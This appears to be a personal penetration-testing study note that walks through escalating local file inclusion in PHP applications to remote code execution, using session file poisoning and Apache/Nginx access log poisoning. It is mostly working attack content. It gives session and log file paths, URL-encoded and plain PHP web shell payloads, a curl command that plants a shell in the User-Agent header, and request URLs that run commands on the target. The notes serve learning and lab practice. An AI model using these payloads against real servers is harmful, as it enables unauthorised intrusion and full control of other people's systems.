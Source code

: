 ![](Attachments/Pasted%20image%2020231002160154.png)


# PHP Session Poisoning
PHPSESSID could possibly hold user-related data on the back-end. 
	/var/lib/php/sessions/
	C:\\windows\\Temp
## Exploit how?
	Identify data that can be controlled and poisoned. 
1. Locate a session file using LFI. 
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
2. Read the file and identify what can be controlled. In this case, en.php
![](Attachments/Pasted%20image%2020231002161010.png)

3.  Go to a page that doesn't exist and observe the PHP session log via LFI. Ensure that I have control over the session
```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning

http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

4. Inject php web shell
```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E



bascially 
<?php
  system($_GET["cmd"]);
?>

```

5. Execute the web shell
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

# Server Log Poisoning
Targets: User-Agent header in access.log||error.log files from Apache||Nginx 
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

Nginx logs : Readable by low priv users
```
/var/log/nginx/
c:\nginx\log
```
Apache logs: Readable by high priv users
```
C:\xampp\apache\logs\
/var/log/apache2
```

Or other locations
```
/proc/self/environ
/proc/self/fd/N   # N = 0-50 
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
```

## Exploit Apache Server how?

1. Verify LFI. 
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```
2. Use Burp to modify User-Agent header field with exploit
```
<?php system($_GET[cmd]); ?>

OR curl

curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET[cmd]); ?>"
```

4. Execute exploit
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log?cmd=id
```

